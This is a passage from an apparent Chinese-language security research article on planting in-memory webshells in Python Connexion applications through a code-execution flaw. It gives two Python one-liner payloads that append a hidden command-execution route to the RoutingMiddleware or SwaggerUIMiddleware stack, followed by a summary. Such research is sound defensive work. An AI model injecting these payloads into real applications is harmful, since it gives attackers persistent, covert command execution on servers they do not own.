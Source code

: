 请求`/shell`接口效果如下，内存马增加成功，成功执行命令：

 ![](/attachments/2025-04-09-connexion-api/972030ad-c46b-4575-886f-a33239f8bcdb.png " =1105x536")

其实也可以在`RoutingMiddleware`和`SwaggerUIMiddleware`中间件中构造内存马，原理和`AsyncASGIApp`一样，由于都是在对应中间件的`router.routes[0].routes`列表中增加一个`AsyncASGIApp`对象下的`route`，所以只需要将第2步的中间件名称更换即可，例如`RoutingMiddleware`如下：

```python
[m.router for m in __import__('sys').modules['__main__'].__dict__['app']. middleware.middleware_stack if m.__class__.__name__ == 'RoutingMiddleware'] [0].routes[0].routes.append([m.router for m in __import__('sys'). modules['__main__'].__dict__['app'].middleware.middleware_stack if m.__class__.__name__ == 'AsyncASGIApp'][0].routes[-1])
```

`SwaggerUIMiddleware`如下：

```python
[m.router for m in __import__('sys').modules['__main__'].__dict__['app']. middleware.middleware_stack if m.__class__.__name__ == 'SwaggerUIMiddleware'] [0].routes[0].routes.append([m.router for m in __import__('sys'). modules['__main__'].__dict__['app'].middleware.middleware_stack if m.__class__.__name__ == 'AsyncASGIApp'][0].routes[-1])
```

### 五、总结

文章通过一个Python Connexion框架代码执行漏洞的例子，探索FlaskApp和AsyncApp这2种启动方式的内存马植入，重点介绍了AsyncApp异步启动方式的路由分发逻辑，解释了动态增加路由后无法直接访问的原因，最终构造出通过2步请求完成AsyncApp方式启动的内存马植入。